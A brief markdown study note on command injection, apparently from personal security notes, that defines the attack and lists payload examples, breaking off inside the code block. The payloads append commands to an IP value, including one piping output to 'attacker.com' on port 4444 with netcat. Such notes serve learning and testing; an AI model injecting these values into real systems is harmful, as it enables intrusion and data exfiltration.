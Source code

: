 ---

### ✅ Command Injection Note

```markdown
# ⚔️ Command Injection – Notes

## 🧠 What is it?
Injecting OS commands into vulnerable server-side functions (e.g., ping, ls).

## 🛠️ Payload Examples:
```bash
127.0.0.1; ls
127.0.0.1 && whoami
127.0.0.1 | nc attacker.com 4444